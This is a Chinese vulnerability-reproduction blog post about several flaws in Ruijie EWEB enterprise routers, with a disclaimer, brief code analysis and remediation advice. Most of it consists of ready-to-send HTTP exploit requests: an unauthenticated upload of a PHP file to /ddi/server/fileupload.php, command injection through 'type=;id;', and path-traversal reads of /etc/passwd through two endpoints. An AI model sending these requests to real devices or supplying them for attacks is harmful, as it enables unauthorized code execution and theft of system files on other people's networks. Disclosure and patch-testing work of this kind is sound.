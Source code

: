 #  【漏洞复现】锐捷EWEB 路由器多个漏洞复现   
PokerSec  PokerSec   2025-04-23 01:01  
  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
EWEB 路由器是锐捷网络推出的企业级 Web 管理路由器，专为中小企业和分支机构设计，提供高性能路由、安全防护和便捷的 Web 管理功能。它支持多 WAN 接入、智能负载均衡和 VPN 连接，具备防火墙、流量控制及行为管理等安全特性，同时通过直观的 Web 界面简化配置与运维，满足企业高效、稳定、安全的网络接入需求。锐捷 NBR 路由器 存在多个漏洞，攻击者可通过该漏洞获取服务器权限或读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等，导致网站处于极度不安全状态。  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKficOw7rKvOrat6CGTGkFJJOkHgtageYMTkqSsXrfZDEHvicb1g2DyuUK4WyDNukOd277sqhHDpFKQ/640?wx_fmt=png&from=appmsg "")  
#### 文件上传  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
POST /ddi/server/fileupload.php HTTP/1.1
Host: xxxxx:4430
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXarDTbMzZe2hdNu2
Content-Length: 272

------WebKitFormBoundaryXarDTbMzZe2hdNu2
Content-Disposition: form-data; name="uploadDir"

upload
------WebKitFormBoundaryXarDTbMzZe2hdNu2
Content-Disposition: form-data; name="file";filename="2.php"

<?php phpinfo();?>
------WebKitFormBoundaryXarDTbMzZe2hdNu2--

```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKficOw7rKvOrat6CGTGkFJJTvHPWO7tia2MvytlyROkhjWZShlFDAFHnNpOSkz75ibVIyad3fbOv7mQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKficOw7rKvOrat6CGTGkFJJ5PIyW5R9yZICmUpGxzBdHibibt3qG72qtZJZx0vRXNAR1AvbKzWYrpwg/640?wx_fmt=png&from=appmsg "")  
#### 命令执行(需授权)  
```
POST /flow_control_pi/flwo.control.php?a=setFlowGroup HTTP/1.1
Host: xxxxx:4430
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 9
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=ob6i707k8q7ul54hf83b7pbsj6; user=admin
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

type=;id;
```  
####   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKficOw7rKvOrat6CGTGkFJJuk24sDxDkj51cjibJUqqdnaUo6RVhclogYrUeBAPPu7ZBxwxlBsy7mw/640?wx_fmt=png&from=appmsg "")  
#### 文件读取(需授权)  
```
POST /system_pi/timeout.php?a=getFile HTTP/1.1
Host:xxxx:4430
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 22
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=ob6i707k8q7ul54hf83b7pbsj6; user=admin
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

fileName=../etc/passwd
```  
####   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKficOw7rKvOrat6CGTGkFJJWhcNbMv2HBchvobM03RicUlsBkGPXRicZA2Mtr0K3TRBqZXtEkvDWeeg/640?wx_fmt=png&from=appmsg "")  
  
文件读取(需授权)  
```
POST /ddi/server/ipam.php?a=getIpamJson HTTP/1.1
Host: xxxx:4430
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 17
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=ob6i707k8q7ul54hf83b7pbsj6; user=admin
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

path=/etc/passwd&
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKficOw7rKvOrat6CGTGkFJJF7nLyVvpPAr8p9R5ibvj5S7UtfhsTZX36xCZHib1eIPovZ1ppZtOFiang/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
在init.php中通过获取a的值拼接action 可以访问 php文件中的任意方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKficOw7rKvOrat6CGTGkFJJ5QPb7hFSOr4YibnibmE2Q5EkboNxSVkObro1NSX8bD11dwgm6qyjJXvw/640?wx_fmt=png&from=appmsg "")  
  
这里可以根据方法名，来构造post，拼接a=xxx来访问  
  
  
命令执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKficOw7rKvOrat6CGTGkFJJ6HyUU6xCC7ZT0MRBg9XQEqkoZ16uwyPOGGj0P8hSybU65w3oCtsCAQ/640?wx_fmt=png&from=appmsg "")  
  
文件读取  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKficOw7rKvOrat6CGTGkFJJhQSRrJcjVvmicyoxdXg77EyFqeEUUW7GKeuQvnVgMqicCXt2nU0vZ2Ng/640?wx_fmt=png&from=appmsg "")  
  
文件读取  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKficOw7rKvOrat6CGTGkFJJ2rnZLeiacb6MDvddeC0kE4U8IsBd7RxmW6O0Jn3m2Py2RqhvrRPSmbA/640?wx_fmt=png&from=appmsg "")  
  
## 修复意见  
  
1、官方已修复该漏洞，请用户联系厂商修复漏洞：  
https://www.ruijie.com.cn/  
  
2、通过防火墙等安全设备设置访问策略，设置白名单访问。  
  
3、如非必要，禁止公网访问该系统。  
  
  
  
如有侵权，请及时联系删除。  
  
